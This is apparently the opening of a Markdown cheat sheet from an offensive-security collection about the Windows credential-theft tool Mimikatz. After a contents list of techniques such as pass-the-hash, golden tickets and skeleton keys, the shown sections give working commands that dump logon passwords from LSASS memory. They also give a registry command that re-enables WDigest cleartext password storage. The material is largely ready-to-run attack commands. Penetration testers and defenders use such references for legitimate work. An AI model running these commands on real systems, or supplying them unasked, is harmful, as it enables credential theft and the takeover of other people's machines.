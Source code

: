 # Windows - Mimikatz

## Summary

* [Mimikatz - Execute commands](#mimikatz---execute-commands)
* [Mimikatz - Extract passwords](#mimikatz---extract-passwords)
* [Mimikatz - LSA Protection Workaround](#mimikatz---lsa-protection-workaround)
* [Mimikatz - Mini Dump](#mimikatz---mini-dump)
* [Mimikatz - Pass The Hash](#mimikatz---pass-the-hash)
* [Mimikatz - Golden ticket](#mimikatz---golden-ticket)
* [Mimikatz - Skeleton key](#mimikatz---skeleton-key)
* [Mimikatz - RDP session takeover](#mimikatz---rdp-session-takeover)
* [Mimikatz - Credential Manager & DPAPI](#mimikatz---credential-manager--dpapi)
* [Mimikatz - Commands list](#mimikatz---commands-list)
* [Mimikatz - Powershell version](#mimikatz---powershell-version)
* [References](#references)

![Data in memory](http://adsecurity.org/wp-content/uploads/2014/11/Delpy-CredentialDataChart.png)

## Mimikatz - Execute commands

Only one command

```powershell
PS C:\temp\mimikatz> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

Mimikatz console (multiple commands)

```powershell
PS C:\temp\mimikatz> .\mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
```

## Mimikatz - Extract passwords

> Microsoft disabled lsass clear text storage since Win8.1 / 2012R2+. It was backported (KB2871997) as a reg key on Win7 / 8 / 2008R2 / 2012 but clear text is still enabled.

```powershell
mimikatz_command -f sekurlsa::logonPasswords full
mimikatz_command -f sekurlsa::wdigest

# to re-enable wdigest in Windows Server 2012+
# in HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest 
# create a DWORD 'UseLogonCredential' with the value 1.
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /f /d 1
```
